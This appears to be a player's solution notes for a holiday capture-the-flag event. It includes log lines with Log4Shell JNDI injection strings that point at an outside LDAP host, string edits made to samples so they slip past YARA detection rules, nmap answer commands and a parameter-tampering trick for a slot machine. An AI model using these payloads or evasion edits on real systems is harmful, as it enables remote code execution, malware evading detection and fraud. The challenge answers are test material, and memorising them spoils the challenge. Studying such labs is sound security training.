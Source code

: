 # Orientation
Follow directions

# Logic Munchers
Just have to play the game

# Bonus! Blue Log4Jack
Follow directions

# Bonus! Red Log4Jack

[14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"

# NMAP challenge:

## Answer all the questions in the quizme executable:
#### What port does 34.76.1.22 have open? 
```62078```
#### What port does 34.77.207.226 have open? 
```8080```
#### How many hosts appear "Up" in the scan? 
```26054```
#### How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080) 
```14372```

```grep -E "(80|8080|443)/open" bigscan.gnmap | sort |  uniq | wc -l```
#### How many hosts with status Up have no (detected) open TCP ports? 
```402```

```echo $((`grep Up | wc -l` - `grep 'open/tcp' | wc -l`))```
#### What's the greatest number of TCP ports any one host has open? 
```12```

```grep -E "(open.*){12,}" | wc -l```


# YARA Bypass

## rule yara_rule_135 
   
   {
      meta:
         description = "binaries - file Sugar_in_the_machinery"
         author = "Sparkle Redberry"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-21"
         hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
      strings:
         $s = "candycane"
      condition:
         $s
   }

- Change candycane to ```c@ndycane```

## rule yara_rule_1056 
   
   {
      meta:
         description = "binaries - file frosty.exe"
         author = "Sparkle Redberry"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-21"
         hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
      strings:
         $s1 = {6c 6962 632e 736f 2e36}
         $hs2 = {726f 6772 616d 2121}   #Hex for rogram!!
      condition:
         all of them
   }    

- Change rogram!! to ```rogram?!```

## rule yara_rule_1732 
   
   {
      meta:
         description = "binaries - alwayz_winter.exe"
         author = "Santa"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-22"
         hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
      strings:
         $s1 = "This is critical for the execution of this program!!" fullword ascii #
         $s2 = "__frame_dummy_init_array_entry" fullword ascii                       #
         $s3 = ".note.gnu.property" fullword ascii
         $s4 = ".eh_frame_hdr" fullword ascii					  #
         $s5 = "__FRAME_END__" fullword ascii					  #
         $s6 = "__GNU_EH_FRAME_HDR" fullword ascii					  #
         $s7 = "frame_dummy" fullword ascii
         $s8 = ".note.gnu.build-id" fullword ascii
         $s9 = "completed.8060" fullword ascii
         $s10 = "_IO_stdin_used" fullword ascii
         $s11 = ".note.ABI-tag" fullword ascii
         $s12 = "naughty string" fullword ascii					#
         $s13 = "dastardly string" fullword ascii					#
         $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii		#
         $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii  			#
         $s16 = "GLIBC_2.2.5" fullword ascii
         $s17 = "its_a_holly_jolly_variable" fullword ascii  			#
         $s18 = "__cxa_finalize" fullword ascii					#
         $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii		#
         $s20 = "__libc_csu_init" fullword ascii
      condition:
         uint32(1) == 0x02464c45 and filesize < 50KB and
         10 of them
   }

- Change HolidayHackChallenge{NotReallyAFlag} to ```HolidayHackChalleng3{NotReallyAFlag}```
- Change dastardly string to ```datardly_string```
- Change naughty string to ```naughty_string```
- Change __frame_dummy_init_array_entry to ```__fram3_dummy_init_array_entry```
- Change __do_global_dtors_aux_fini_array_entry to ```__d0_global_dtors_aux_fini_array_entry```
- Change its_a_holly_jolly_variable to ```its_a_ho1ly_jolly_variable```
- Change .eh_frame_hdr to ```.eh_frame_hDr```
- Change __FRAME_END__ to ```__FRAME_3ND__```
- Change __GNU_EH_FRAME_HDR to ```__GNU_EH_FRAM3_HDR```
- Change __cxa_finalize to ```__cx@_finalize```
- Change __libc_start_main@@GLIBC_2.2.5 to ```__libc_start_ma1n@@GLIBC_2.2.5```

# EXIFtool challenge

```exiftool 2021-12-*.docx | less /Jack```

```Caramel Santaigo```

Decoded Flask cookies Cyberchef from Base64 url safe zlib inflate

{"elf":"Tinsel Upatree","elfHints":["They kept checking their Snapchat app.","The elf mentioned something about Stack Overflow and Python.","Oh, I noticed they had a Star Trek themed phone case.","The elf got really heated about using tabs for indents.","hard"],"location":"Santa's Castle","options":[["Antwerp, Belgium","Prague, Czech Republic","New York, USA"],["Edinburgh, Scotland","Stuttgart, Germany","Reykjav\u00edk, Iceland"],["Montr\u00e9al, Canada","Antwerp, Belgium","Prague, Czech Republic"],["Rovaniemi, Finland","Placeholder","Tokyo, Japan"]],"randomSeed":721,"route":["New York, USA","Edinburgh, Scotland","Antwerp, Belgium","Placeholder"],"victoryToken":"{ hash:\"3852c096dcc7d6403ed61a0b247e979d28bca9714c25faa4956f2196ae7afb11\", resourceId: \"65485b84-6a1d-4dac-afcb-a43bbe34d01e\"}"}
{"elf":"Ribb Bonbowford","elfHints":["Oh, I noticed they had a Star Wars themed phone case.","The elf mentioned something about Stack Overflow and C#.","The elf got really heated about using tabs for indents.","They kept checking their Slack app.","hard"],"location":"Santa's Castle","options":[["Copenhagen, Denmark","Antwerp, Belgium","New York, USA"],["Edinburgh, Scotland","Reykjav\u00edk, Iceland","Stuttgart, Germany"],["Edinburgh, Scotland","Rovaniemi, Finland","New York, USA"],["New York, USA","Edinburgh, Scotland","Placeholder"]],"randomSeed":884,"route":["Antwerp, Belgium","Stuttgart, Germany","Edinburgh, Scotland","Placeholder"],"victoryToken":"{ hash:\"b2f333cb6d56c7329fb71f29ed29dd2c37861251290a29fc5649c44e37a23b13\", resourceId: \"f01c68fb-30e7-471c-aad3-380395e2cac6\"}"}

# Parameter tampering slot machine

Change 'cpl' to negative value to increase winnings